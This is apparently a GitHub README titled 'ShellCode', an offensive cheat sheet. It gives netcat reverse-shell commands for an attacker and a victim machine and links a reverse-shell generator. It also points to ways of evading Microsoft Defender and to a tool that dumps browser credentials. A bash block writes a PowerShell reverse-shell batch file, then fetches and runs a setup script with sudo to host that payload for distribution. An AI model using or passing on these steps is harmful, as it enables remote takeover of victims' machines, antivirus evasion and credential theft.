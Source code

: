 # ShellCode

### Shell Generator Resource(Reverse, Bind, HoaxShell, MSFVenom)
[Shell Generator](https://www.revshells.com) 


**MAC OS Reverse Shell Example:** (Last tested 11/24)

- Attacker: nc -lvnp &lt;Port&gt;

- Victim: nc &lt;IP&gt; &lt;Port&gt; -e /bin/bash

**Windwos 11 Reverse Shell Example:**

- cat & mouse game to bypass Microsoft Defender
- Useful resource: [Youtube](https://www.youtube.com/watch?v=SYM4i474JqM)


---
### Browser Extensions
[Hack-Tools Chrome Extension](https://chromewebstore.google.com/detail/hack-tools/cmbndhnoonmghfofefkcccljbkdpamhi)

---
### Dump Web-Browser Creds
[git](https://github.com/moonD4rk/HackBrowserData.git) (Last tested 11/24)

---
### Spin up a local Web Server to distribute the files(Last tested 11/24)
To set up a web server and host your script, follow these steps:

   ```bash
   touch powershellreverse.bat
   echo "<ShellCode here>" > powershellreverse.bat
   wget https://github.com/NickolayMOmelchenko/ShellCode/raw/refs/heads/main/setup_windows_website.sh
   chmod +x setup_windows_website.sh
   sudo ./setup_windows_website.sh

